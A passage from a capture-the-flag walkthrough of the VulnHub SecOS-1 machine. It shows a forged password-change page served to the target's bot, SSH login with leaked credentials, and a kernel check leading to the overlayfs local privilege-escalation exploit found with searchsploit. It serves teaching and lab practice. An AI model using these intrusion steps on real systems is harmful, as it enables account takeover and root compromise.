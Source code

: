 ![sendmessage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3155e9d5-b513-4e9c-9eaa-520166e05c8f)

after sending message and waiting afew seconds we expect that spiderman password would change to `123` :

```bash
root@kali: python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.127.137 - - [09/Sep/2023 05:23:01] "GET /visit.html HTTP/1.1" 200 -
```
yes we got a request it means spiderman should have our provided password.

we logout our account and login with spiderman and password 123 and navigate to messages menu :

![spidermessage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/05b17044-239b-4c20-8f31-ef5f9222da8b)

we see here our message and `pirate` user message that mentions the spiderman password -> `CrazyPassword!`

all we need now is to SSH to machine with `spiderman:CrazyPassword!` :

![ssh](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e3053b96-eb19-4413-8f95-581d215c798a)

## Privilege Escalation Method 1

If we check the linux kernel version we see the information below :

```bash
spiderman@SecOS-1:~$ uname -a
Linux SecOS-1 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:08:14 UTC 2014 i686 i686 i686 GNU/Linux

spiderman@SecOS-1:~$ cat /etc/os-release 
NAME="Ubuntu"
VERSION="14.04, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

we use `searchsploit` to find any kernel exploit for this version :

```bash
root@kali: searchsploit kernel 3.13
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation   | linux/local/37292.c
```

our version meets exactly with this exploit we download it and upload it on the victim on `/tmp` directory
